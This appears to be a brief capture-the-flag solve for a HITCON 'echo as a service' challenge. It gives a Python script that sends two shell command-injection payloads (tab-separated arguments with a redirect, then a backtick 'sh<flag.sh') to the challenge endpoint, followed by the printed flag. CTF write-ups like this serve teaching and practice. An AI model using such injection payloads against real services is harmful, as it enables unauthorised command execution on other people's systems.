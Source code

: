 ```py
cmd = ['/readflag\tgive\tme\tthe\tflag1<flag.sh', '`sh<flag.sh`']
[print(__import__("requests").post("http://eaas.chal.hitconctf.com:30951/echo", data={'msg': cmd[x]}).text) for x in range(2)]
```

```sh
> python solve.py

hitcon{i_found_this_bug_during_LINECTF_but_unfortunately_it_became_1day_challenge_a_few_months_ago}
```